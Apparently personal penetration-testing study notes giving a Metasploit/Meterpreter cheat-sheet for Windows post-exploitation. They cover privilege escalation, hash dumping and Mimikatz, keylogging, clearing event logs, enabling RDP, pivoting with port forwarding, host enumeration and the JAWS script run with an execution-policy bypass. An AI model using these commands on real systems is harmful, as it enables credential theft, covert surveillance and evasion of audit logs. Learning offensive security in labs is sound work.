![](</Images/Pasted image 20240103201637.png>)
### different metasploit commands

### meterpreter
getsystem
> use to elevate privs

hashdump
> dump hashes

#NTML hash format
username:UID:LM hash:NTML hash
### modules (can also use #Kiwi via load in meterpreter)
win_privs
> enumerate current user privs

enum_logged_on_users
> numerate users that are logged on

checkvm
> check to see if system is vm or not. Useful to see if breaking out of vm is possible

enum_applicaitons
> see what programs are installed along with versions

enum_av_exluded
> will show folders that are excluded from AV program. If there is one exploits can be hidden here

enum_computers
>enumerate connected machines

enum_patches
> enumerate applied patches

All of this info is stored locally. if created in a workspace `loot` command will list out these files

### Mimikatz
This is Kiwi running Mimikatz in memory. Due to Mimikatz needing to be uploaded to target system. Can be found here:

From meterpreter: `upload /.usr/share/windows-resources/mimikatz/` then find correct version and file. Execute once on system. Commands are different. ie `privilege::debug` format

Pass the hash with #psexec 
See [Tools](obsidian://open?vault=cheatsheet&file=Tools%2FPSExec)

### enable RDP post explotation
`search enable_rdp`

That enables rdp along with port. Once done use #xfreerdp to connect. Requires credentials which can be created with `enable_rdp`

To login:
```
xfrerdp /u:<user> /p:<pass> /v:<ip>
```

### keylogging

Feature inside meterpreter
`keyscan_start`
`keyscan_dump`
`keyscan_stop`

### clearing windows event logs
From meterpreter `clearev`

### Pivoting
#pivoting

With #meterpreter 
Run ipconfig for IP 

`run autoroute -s <ip>/<subnet>`

Note route is **only** available for msf tools using this method. To scan for ports on new machine use `auxiliary/scanner/portscan/tcp`

If use is needed outside of msf port forwarding is required. Done in meterpreter
`portfwd add -l <local port> -p <port to forward> -r <new IP>`

Then to use nmap scan local  port from above:
`db_nmap -sV -p <local port from above> localhost`

If attempting a meterpreter session use `windows/meterpreter/bind_tcp` change port if running meterpreter already

![](</Images/Pasted image 20240115133710.png>)
## Enumerating
![](</Images/Pasted image 20240115134525.png>)

### meterpreter
getuid: get user info
sysinfo: get system info
getprivs: see privileges 

### command prompt
hostname: hostname
systeminfo: gives a lot of info on system, including hotfixes

## WMIC 
use once logged onto windows system
Collects additional system info especially with hotfixes
`wmic qfe get Caption,Description,HotFixID,Installation`

# Enumerating Users and Groups
### meterpreter
getuid check for admin level
getprivs: lists out privileges
shell: open cmd.exe

### shell
whoami: show user info
whoami /priv: shows privs
query user: shows current logged on users !important
net users: shows other accounts in system
net user administrator: shows info on particular user. administrator in example
net localgroup administrators: lists members in a group

### metasploit
post/windows/gather/enum_logged_on_users: shows users that have logged in recently
post/windows/gather/win_privs: msf script to show privs
enum_computers: will enumerated all connected computers

show_mount: shows mounted drives
# Enumerating Network Information

![](</Images/Pasted image 20240115151100.png>)
### shell
ipconfig: shows network information
ipconfig /all: additional network information
route print: gives rounting info
arp -a list arp information
netstat -ano: lists active connections
netsh advfirewall firewall dump: gives firewall info
netsh advfirewall firewall show allprofiles: show if windows firewall is running
netsh advfirewall: gives help menu

Seeing firewall rules can help with listeners on open ports

# Enumerating Processes & Services

![](</Images/Pasted image 20240115152552.png>)

### meterpreter
ps: list out running processes
pgrep explorer.exe: to search for PID by process name
- migrate to explorer.exe preferred
migrate 2176: migrate to a process

### shell
net start: shows background services that are started. Not processes
wmic service list brief: similar to ps
tasklist /SVC: lists running processes, services, PID's
schtasks /query /fo LIST v: lists scheduled tasks (like crontab for exploitation)

# Automating Windows Local Enumeration

### JAWS
automated script to help enumeration and find escalation vectors. Can be found [here](www.github.com/411Hall/JAWS)

crtl + shift + alt to open clipbpard in guacamole

upload file into Temp and swtich meterpreter to shell to execute

Need to set executpoion policy first

powershell.exe -ExecutionPolicy Bypass -File .\\jaws-enum.ps1 -OutputFilename JAWS-Enum.txt